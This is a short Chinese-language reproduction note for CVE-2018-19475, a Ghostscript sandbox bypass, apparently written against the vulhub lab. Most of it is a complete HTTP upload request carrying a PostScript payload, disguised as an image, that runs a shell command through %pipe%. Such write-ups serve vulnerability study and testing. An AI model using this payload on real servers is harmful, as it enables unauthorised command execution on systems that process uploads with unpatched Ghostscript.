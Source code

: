 # （CVE-2018-19475）GhostScript 沙箱绕过（命令执行）漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2953](https://www.zhihuifly.com/t/topic/2953)

# （CVE-2018-19475）GhostScript 沙箱绕过（命令执行）漏洞

## 一、漏洞简介

./psi/zdevice2.c文件存在安全特征问题漏洞。该漏洞是源于网络系统或产品中缺少身份验证、访问控制、权限管理等安全措施。

## 二、漏洞影响

Ghostscript 9.26之前版本

## 三、复现过程

将POC作为图片上传，执行命令`id > /tmp/success && cat /tmp/success`：

```
POST /index.php HTTP/1.1
Host: target
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryukZmnyhO
Content-Length: 279

------WebKitFormBoundaryukZmnyhO

Content-Disposition: form-data; name=“file_upload”; filename=“1.jpg”

content-Type=“image/png” `%!PS

0 1 300367 {} for

{save restore} stopped {} if

(%pipe%id > /tmp/success && cat /tmp/success) (w) file

------WebKitFormBoundaryukZmnyhO–` 
```

命令已成功执行：

![image](img/fd94a9398844f965ba34d76bee6a54e7.png)

## 参考链接

> https://vulhub.org/#/environments/ghostscript/CVE-2018-19475/